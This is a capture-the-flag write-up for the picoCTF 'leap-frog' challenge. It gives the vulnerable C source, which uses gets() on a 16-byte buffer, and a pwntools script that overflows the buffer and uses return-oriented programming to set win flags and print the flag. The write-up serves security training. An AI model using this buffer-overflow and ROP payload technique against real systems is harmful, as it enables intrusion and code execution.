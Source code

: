 [Back](PicoFrontPage.md)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>


#define FLAG_SIZE 64

bool win1 = false;
bool win2 = false;
bool win3 = false;

void leapA() {
  win1 = true;
}

void leap2(unsigned int arg_check) {
  if (win3 && arg_check == 0xDEADBEEF) {
    win2 = true;
  }
  else if (win3) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void leap3() {
  if (win1 && !win1) {
    win3 = true;
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void display_flag() {
  char flag[FLAG_SIZE];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  }
  else if (win1 || win3) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

### Analysis

This challenge requires us to set `win1`, `win2` and `win3` to true before calling `display_flag()` to complete the it and spit out the flag.

- `leapA()` requires us to simply call it to set `win1` to true 
- `leap2()` requires us to have set `win3` to true and supply the argument `0xDEADBEEF`
- `leap3()`, however, requires us to have set `win1` to both true and false

However, we don't actually need to call these functions to clear the challenge. We can simply set `win1`, `win2` and `win3` to 1 (or true).
Find out the bytes required to reach `$eip` as usual and from there we're going to use ROP to call `gets()`, `display_flag()` and set the `win` variables to `0x01`.
If we check we can actually see that all three `win` variables are right next to each other at locations: `0x804A03D`, `0x804A03E`, `0x804A03F`, respectively. This means we can just need to reach `win1` and we will be able to set them to 1.

```python
from pwn import *

s = ssh(host='2019shell1.picoctf.com', user='Username', password='Password')
p = s.process('/problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158/rop', cwd='/problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158')

# variables
pop_ebp_ret = 0x080485fb
win1 = 0x0804A03D
display_flag = 0x80486b3

bss = 0x0804a03c
new_stack = bss + 0x900
get_input = 0x80487b8

gets = 0x08048430

# create payload
payload = b'A'*28 # 28 bytes to overwrite eip
payload += p32(gets)
payload += p32(display_flag)
payload += p32(win1)

# receive until > is read
p.recvuntil(b'input>')

# send payload as one line
p.sendline(payload)
set_true = p32(0x010101)
p.sendline(set_true)

# always do this we want a shell
p.interactive()
```
